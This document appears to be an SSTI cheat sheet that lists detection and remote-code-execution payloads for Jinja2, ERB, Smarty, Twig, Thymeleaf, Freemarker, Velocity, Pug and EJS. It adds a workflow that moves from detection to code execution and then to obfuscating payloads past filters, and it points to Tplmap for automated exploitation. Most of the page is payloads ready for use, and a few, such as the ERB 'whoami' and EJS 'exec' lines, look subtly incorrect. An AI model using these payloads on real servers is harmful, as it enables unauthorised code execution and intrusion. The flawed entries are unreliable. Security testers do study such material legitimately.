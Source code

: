 Server-Side Template Injection (SSTI) vulnerabilities occur when user input is embedded into templates and evaluated by a server. Exploiting SSTI vulnerabilities allows attackers to execute arbitrary code on the server. Here's a list of useful SSTI cheat sheets, categorized by popular templating engines.

here is some of server-side based Template Engine:
	"Jinja2 or Jinja, Freemaker, Mako, Velocity, Smarty, Tornado, Genshi, Twig, Mustache, etc."

Here are some cheat sheet payloads for different languages and Template Engines:
 General SSTI Detection

    Detection Payloads:
        Test for template engine:
            {{7*7}} for Jinja2/Django
            ${{7*7}} for Freemarker, Velocity, Thymeleaf
            <%= 7*7 %> for JSP
            #{7*7} for Ruby
        Result: 49 in the output indicates a possible SSTI.

Python (Jinja2, Django)

    Basic payloads:
        {{7*7}}
        {{request.application.__globals__.__builtins__.__import__('os').popen('whoami').read()}}
        {{config.items()}}
    Remote Code Execution:
        {{ ''.__class__.__mro__[1].__subclasses__()[284]('id',shell=True,stdout=-1).communicate()[0].strip() }}

Ruby on Rails (ERB)

    Basic payloads:
        <%= 7*7 %>
        <%= whoami %>
    Remote Code Execution:
        <%= Kernel.exec("ls") %>

PHP (Smarty, Twig)

    Smarty:
        {php} echo ls; {/php}
        {system('ls')}
    Twig:
        {{7*7}}
        {{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('id')}}
        {{["id"]|filter("system")}}

Java (Thymeleaf, Freemarker, Velocity)

    Thymeleaf:
        ${{T(java.lang.Runtime).getRuntime().exec("id")}}
    Freemarker:
        ${"freemarker.template.utility.Execute"?new()("id")}
    Velocity:
        #set($str=$class.inspect("java.lang.Runtime").getRuntime().exec("id"))

Node.js (Pug, EJS)

    Pug:
        #{7*7}
        - var exec = require('child_process').exec; exec('id', function(err, stdout) { console.log(stdout) })
    EJS:
        <%= exec('id') %>

Detection Payload Workflow

    Initial test: Try simple arithmetic (e.g., {{7*7}}) to confirm that the input is processed by a template engine.
    Escalation: Use code execution payloads based on the template engine identified.
    Filter Bypass: Try obfuscating payloads or chaining functions to bypass filters.

Tools:
    Tplmap: Automated tool to exploit SSTI vulnerabilities.
